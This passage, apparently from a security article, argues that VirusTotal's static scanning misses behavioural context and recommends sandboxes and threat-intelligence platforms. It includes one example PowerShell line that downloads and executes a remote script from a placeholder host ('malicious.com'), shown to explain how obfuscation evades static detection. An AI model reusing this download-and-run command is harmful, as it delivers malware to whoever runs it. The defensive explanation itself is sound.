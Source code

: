 ```  

**Implication**: If your organization relies solely on VT, you’re missing **30%+ of emerging threats**.  

---

## 🧠 4. Lack of Contextual Analysis: Missing the Bigger Picture  

### 🧾 What Is Contextual Analysis?  
Contextual analysis involves understanding:  
- **Behavioral Patterns**: Registry modifications, persistence mechanisms, network activity.  
- **Threat Intelligence**: Linking IoCs (Indicators of Compromise) to known threat actors.  

### 🧪 VT’s Static Approach  
VT provides **static results** (e.g., "Detected" or "Undetected") but lacks:  

#### 📡 Behavioral Insights  
A malicious PowerShell script may evade VT if it uses obfuscation:  
```powershell  
$var = 'IEX (New-Object Net.WebClient).DownloadString("http://malicious.com/evil.ps1")'  
Invoke-Expression ($var -replace ' ','')  
```  
**Problem**: VT’s static scan sees only the obfuscated string, not the dynamic behavior (e.g., downloading a payload).  

#### 🧩 Threat Intelligence Integration  
VT does not correlate files with **MITRE ATT&CK techniques** or **APT group TTPs (Tactics, Techniques, Procedures)**. For example:  
- **APT29** (SolarWinds attackers) use **SMB lateral movement**. VT won’t highlight this unless the file is explicitly flagged.  

---

## 🛡️ Alternatives and Complementary Tools  

### 🧰 Dynamic Analysis Platforms  
1. **ANY.RUN**  
   - Interactive sandbox with **real-time packet capture**.  
   - Detects evasion techniques like sandbox detection.  
   - Example: ANY.RUN’s memory dump analysis caught **LockBit ransomware** using API hooking to evade detection.  

2. **Hybrid-Analysis**  
   - Combines static, dynamic, and YARA rule matching.  
   - Supports **custom YARA rules** for detecting specific patterns.  

### 🌐 Threat Intelligence Platforms  
1. **Mandiant**  
   - Tracks **APT groups** (e.g., APT10, APT28) and their IoCs.  
   - Integrates with SIEM tools like Splunk for real-time alerts.  

